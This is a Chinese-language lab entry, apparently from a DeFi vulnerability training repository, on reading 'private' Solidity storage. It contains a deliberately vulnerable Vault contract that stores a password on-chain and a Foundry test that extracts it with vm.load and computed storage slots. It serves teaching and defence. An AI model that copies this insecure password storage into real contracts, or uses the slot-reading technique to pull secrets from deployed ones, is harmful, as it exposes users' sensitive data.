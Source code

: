 # 私有数据 
[Privatedata.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Privatedata.sol)  
**名称：** 私有数据泄露  

**描述：**  
Solidity在合约中定义的变量存储在插槽(slots)中。每个插槽可以容纳最多32字节或256位。  
鉴于链上存储的所有数据，无论是公开的还是私有的，都可以被读取，  
因此可以通过预测私有数据所在的内存插槽来从Vault合约中读取私有数据。

如果Vault合约在生产环境中被使用，恶意行为者可能使用类似的技术来访问敏感信息，如用户密码。  

**缓解方法：**  
避免将敏感数据存储在链上。   

**参考**  
https://quillaudits.medium.com/accessing-private-data-in-smart-contracts-quillaudits-fe847581ce6d  



**Vault合约：**  
```
contract Vault {
    // 插槽 0
    uint256 private password;

    constructor(uint256 _password) {
        password = _password;
        User memory user = User({id: 0, password: bytes32(_password)});
        users.push(user);
        idToUser[0] = user;
    }

    struct User {
        uint id;
        bytes32 password;
    }

    // 插槽 1
    User[] public users;
    // 插槽 2
    mapping(uint => User) public idToUser;

    function getArrayLocation(
        uint slot,
        uint index,
        uint elementSize
    ) public pure returns (bytes32) {
        uint256 a = uint(keccak256(abi.encodePacked(slot))) +
            (index * elementSize);
        return bytes32(a);
    }
}
```  
**如何测试：**  
forge test --contracts src/test/Privatedata.sol-vvvv  
```
    // testReadprivatedata()的函数声明，这是一个公共函数。
function testReadprivatedata() public {
        
    // 创建Vault合约的新实例,其中参数为“123456789”。
    VaultContract = new Vault(123456789);

    // 将Vault合约地址和插槽编号0作为vm.load函数的参数
    // “vm.load”函数从指定合约的存储槽中加载数据。
    // 在这里，读取合约的第0个存储槽。在Solidity中，存储布局从插槽0开始。
    bytes32 leet = vm.load(address(VaultContract), bytes32(uint256(0)));

    // 记录第一个存储槽的值，将bytes32值转换为uint256。
    console.log(uint256(leet));

    // 使用 vm.load 函数再次读取数据，
    // 但这次使用了VaultContract中的getArrayLocation方法来计算动态数组中特定元素的存储插槽。
    // 这是因为在以太坊中，数组的存储不是在连续的块中，而是通过哈希计算找到每个元素的位置
    // 在这里，假设Vault合约中有一个数组，并且您正在尝试访问插槽1中的数据（基于你的参数）
    bytes32 user = vm.load(
        address(VaultContract),
        VaultContract.getArrayLocation(1, 1, 1)
    );
        
    // 记录从合约存储读取的特定数组元素的值，将其从bytes32转换为uint256。
    console.log(uint256(user));
}
```  
**红色框：** 读取私有数据成功。  
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fbfa76e84-7cd5-45ce-8b04-9032673ab3af%2FUntitled.png?table=block&id=09c2a521-e269-4e04-8e81-7516e5c8ac58&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2) 